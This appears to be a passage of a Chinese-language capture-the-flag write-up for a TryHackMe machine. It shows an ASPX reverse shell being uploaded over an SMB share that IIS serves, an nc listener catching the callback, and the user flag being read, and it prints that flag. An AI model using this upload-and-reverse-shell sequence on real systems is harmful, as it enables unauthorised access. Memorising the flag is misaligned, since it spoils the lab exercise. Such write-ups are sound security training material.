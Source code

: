 # 然而打开http://10.10.150.167:49663/nt4wrksv/passwords.txt，同样可以访问到上面的信息，说明分享的目录在iss可以访问的目录内，也就是说可以通过上传一个asp文件
，拿到反弹的shell


# 成功上传一个asp文件,payload见：https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
```
┌──(root💀kali)-[~]
└─#  smbclient  //10.10.150.167/nt4wrksv 
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.       
smb: \> put /root/tryhackme/rev
reverse_shell.apsx  revse_shell.php       
smb: \> put /root/tryhackme/reverse_shell.apsx ./shell.aspx
putting file /root/tryhackme/reverse_shell.apsx as \shell.aspx (11.7 kb/s) (average 11.7 kb/s)
smb: \> ls
  .                                   D        0  Thu Sep  9 04:33:54 2021
  ..                                  D        0  Thu Sep  9 04:33:54 2021
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
  shell.aspx                          A    15492  Thu Sep  9 04:33:55 2021

                7735807 blocks of size 4096. 5134626 blocks available
smb: \> 
```

# 访问http://10.10.150.167:49663/nt4wrksv/shell.aspx，拿到一个反弹shell
```
┌──(root💀kali)-[~/tryhackme]
└─#  nc -lnvp 1234                                                                                                                                                                                                                     130 ⨯
listening on [any] 1234 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.150.167] 49893
Spawn Shell...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>

```

# 拿到userflag
```
c:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```
